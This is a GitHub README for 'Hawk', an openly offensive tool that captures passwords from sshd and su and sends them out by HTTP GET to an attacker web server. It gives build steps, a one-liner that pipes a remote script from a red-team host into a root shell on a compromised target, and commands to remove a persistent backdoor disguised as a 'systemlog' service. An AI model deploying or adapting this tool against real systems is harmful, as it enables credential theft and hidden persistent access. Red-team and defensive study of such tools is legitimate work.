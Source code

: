# Hawk

This tool monitors sshd and su for passwords.

## Description

Hawk is a simple tool designed to monitor the `sshd` and `su` services for passwords. Its written in Golang and exfiltrates the passwords to via HTTP GET request to a web server.

## Building for web server

```bash
git clone https://github.com/MattKeeley/hawk.git &&
cd hawk


vim exfil.go and change the web server location


go build -o hawk &&
cp hawk /home/ubuntu/webserver &&
cp hawk_backdoor /home/ubuntu/webserver
```

## Run once root is obtained:

```bash
nxc ssh -u "<user>" -p "<password>" --sudo-check -x 'echo "<password>" | sudo -S sh -c "$(curl -fsSL http://redteam.prodefense.io:1337/hawk.sh)"' "<target>"
```

## Turn off Hawk backdoor

```bash
 sudo systemctl stop systemlog.service
 sudo systemctl disable systemlog.service
 sudo rm -rf /etc/systemd/system/systemlog.service
 sudo rm -rf /etc/systemlog
```
